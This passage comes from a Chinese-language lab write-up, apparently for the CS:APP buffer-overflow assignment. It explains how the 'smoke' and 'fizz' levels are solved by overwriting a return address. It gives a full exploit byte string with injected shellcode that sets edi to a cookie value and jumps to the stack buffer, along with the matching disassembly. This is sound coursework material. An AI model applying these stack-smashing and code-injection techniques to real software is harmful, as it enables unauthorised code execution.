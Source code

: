 查到smoke的函数地址是0x00401019。 由于我的系统是小端序，将其按小端序重写是19 10 40 00 00 00 00 00。 将返回地址覆盖，只需要将原先的buf区域全部填0即可，0x28 = 40个字节。

\subsection{Fizz的破解与分析}

\textbf{文本如下：}
\begin{verbatim}
bf 1b fe f6 51 68 3b 10
40 00 c3 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
b0 3c 68 55 00 00 00 00
\end{verbatim}

\textbf{分析过程：}

\begin{verbatim}
000000000040103b <fizz>:
    40103b:    48 83 ec 08              sub    $0x8,%rsp
    40103f:    89 fa                    mov    %edi,%edx
    401041:    3b 3d 65 51 20 00        cmp    0x205165(%rip),%edi
    401047:    75 20                    jne    401069 <fizz+0x2e>
    401049:    be ea 26 40 00           mov    $0x4026ea,%esi
    40104e:    bf 01 00 00 00           mov    $0x1,%edi
    401053:    b8 00 00 00 00           mov    $0x0,%eax
    401058:    e8 73 fd ff ff           callq  400dd0 <__printf_chk@plt>
    40105d:    bf 01 00 00 00           mov    $0x1,%edi
    401062:    e8 84 06 00 00           callq  4016eb <validate>
    401067:    eb 14                    jmp    40107d <fizz+0x42>
    401069:    be 38 25 40 00           mov    $0x402538,%esi
    40106e:    bf 01 00 00 00           mov    $0x1,%edi
    401073:    b8 00 00 00 00           mov    $0x0,%eax
    401078:    e8 53 fd ff ff           callq  400dd0 <__printf_chk@plt>
    40107d:    bf 00 00 00 00           mov    $0x0,%edi
    401082:    e8 79 fd ff ff           callq  400e00 <exit@plt>
\end{verbatim}

这里发现Fizz用edi与cookie进行比较，所以需要修改edi寄存器的值。

首先进入gdb查到buf的地址是0x55683cb0。

让程序运行我注入的代码:
\begin{verbatim}
0:    bf 1b fe f6 51           mov    $0x51f6fe1b,%edi  #cookie
5:    68 3b 10 40 00           pushq  $0x40103b         #fizz
a:    c3                       retq
\end{verbatim}
修改了edi的值之后返回到fizz函数即可。

